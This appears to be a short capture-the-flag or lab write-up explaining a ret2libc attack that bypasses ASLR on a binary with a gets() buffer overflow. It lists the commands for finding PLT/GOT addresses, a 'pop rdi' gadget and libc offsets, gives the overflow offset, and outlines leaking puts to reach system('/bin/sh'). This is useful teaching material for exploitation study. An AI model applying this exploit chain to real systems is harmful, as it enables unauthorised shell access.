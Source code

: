 Bypassing ASLR and performing ret2libc attack.

After decompiling with ghidra, we can see three standard functions : puts, gets, fflush. We will attack puts.

1)Get function addresses in binary:
	# objdump -D executable | grep puts
	We get plt (0x4004e0) and got (0x601018) addresses.
2)Get the pop rdi and return address:
	# r2 executable 
	# [0x00400530]> /R pop rdi
	Pop rdi address is (0x004006d3)
3)Get address of main()
	# objdump -D executable | grep main
	Address is (0x400626)
4)Now find offset of puts, system, /bin/bash in libc
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep puts
	#readelf -s /lib/x86_64-linux-gnu/libc-2.27.so | grep system
	#strings -a -t x /lib/x86_64-linux-gnu/libc-2.27.so | grep /bin/sh 
	We got : 0x809c0, 0x4f440 and 0x1b3e9a
5) Overflow occurs when more than 71 bytes sent.
6) We send junk, pop rdi addr, then got addr of puts() and print the puts() address in libc by calling(jumping to) plt puts() and returning to main.
7) Leaked puts:0x7f9518d089c0
8) Use this address to calculate offsets, and calculate addresses of system(0 and /bin/sh in libc.
